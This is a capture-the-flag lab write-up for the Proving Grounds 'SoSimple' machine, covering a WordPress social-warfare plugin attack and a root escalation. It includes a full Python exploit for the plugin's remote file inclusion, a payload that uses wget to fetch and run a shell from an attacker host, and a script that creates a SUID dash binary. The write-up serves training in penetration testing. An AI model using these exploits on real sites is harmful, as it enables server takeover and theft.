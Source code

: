 ```yaml
---
title: "Proving grounds Play: SoSimple"
layout: post
date: 2023-07-22 12:00
categories: writeup
---
```


Proving grounds Play - SoSimple CTF writeup.

## Walkthrough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/SoSimple/youtube.png)](https://youtu.be/KodURDujWxs)

## NMAP
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b5543efafd03d0e63207af4ac416a45 (RSA)
|   256 53f5231be9aa8f41e218c6055007d8d4 (ECDSA)
|_  256 55b77b7e0bf54d1bdfc35da1d768a96b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: So Simple
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Fuzzing for directories and Files
```sh
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.158.78/FUZZ/
Total requests: 62284

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000327:   200        147 L    646 W      13420 Ch    "wordpress"                           
000000386:   403        9 L      28 W       279 Ch      "icons"                               
000004227:   403        9 L      28 W       279 Ch      "server-status"                       
000004255:   200        77 L     39 W       495 Ch      "http://192.168.158.78//"             
000010756:   404        9 L      31 W       276 Ch      "secure_html"
```

## WPScan
```sh
+] social-warfare
 | Location: http://192.168.158.78/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2023-02-15T16:23:00.000Z
 | [!] The version is out of date, the latest version is 4.4.1
```

### Searchsploit

![img](/assets/images/CTF/Proving_Grounds/SoSimple/searchsploit.png)

### Exploit

```py
import sys
import requests
import re
import urlparse
import optparse

class EXPLOIT:

	VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"

	def __init__(self, _t, _p):
		self.target  = _t
		self.payload = _p

	def engage(self):
		uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
		r = requests.get( uri )
		if r.status_code == 500:
			print "[*] Received Response From Server!"
			rr  = r.text
			obj = re.search(r"^(.*)<\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
			if obj:
				resp = obj.groups()[0]
				if resp:
					print "[<] Received: "
					print resp.replace( "lnbreak", "\n" )
				else:
					sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
			else:
				sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
		else:
			sys.exit( "[~] Unexpected Status Received!" )

def main():
	parser = optparse.OptionParser(  )

	parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
	parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

	(options, args) = parser.parse_args()

	print "[>] Sending Payload to System!"
	exploit = EXPLOIT( options.target, options.payload )
	exploit.engage()

if __name__ == "__main__":
	main()
```

Vulnerable PATH

```py
VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"
```
### Remote File Inclusion

**Remote payload file**

```text
<pre>
system("wget http://192.168.45.217:8000/shell  -O /var/tmp/shell; chmod 755 /var/tmp/shell; chmod +x /var/tmp/shell; /var/tmp/shell");
</pre>
```
### Reverse shell payload using msfvenom

![img](/assets/images/CTF/Proving_Grounds/SoSimple/rev_shell.png)

### RFI Exploitation

![img](/assets/images/CTF/Proving_Grounds/SoSimple/rfi.png)

**Reverse shell connection obtained.**

## Privilege Escalation

User `max` ssh id_rsa file has been found.

![img](/assets/images/CTF/Proving_Grounds/SoSimple/id_rsa.png)

### SSH login to max

![img](/assets/images/CTF/Proving_Grounds/SoSimple/max.png)

Listing `max` user permission, finding exploit for the `service` using GTFO bins and switch user to `steven`

![img](/assets/images/CTF/Proving_Grounds/SoSimple/steven.png)

Listing `steven` user permisssions

![img](/assets/images/CTF/Proving_Grounds/SoSimple/server-health.png)

Create bash script using the location mentioned in the permissions.

```sh
#!/bin/bash

cp /bin/dash /var/tmp/dash; chmod u+s /var/tmp/dash
```

`chmod u+s` Allows the binary to be executed as owner + SUID permissions.

### Running script as root user

![img](/assets/images/CTF/Proving_Grounds/SoSimple/dash.png)

**Run** `dash`

![img](/assets/images/CTF/Proving_Grounds/SoSimple/proof.png)

`dash -p` preserves effective privilege with which it was created and executed with same privilege.

**Root obtained.**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
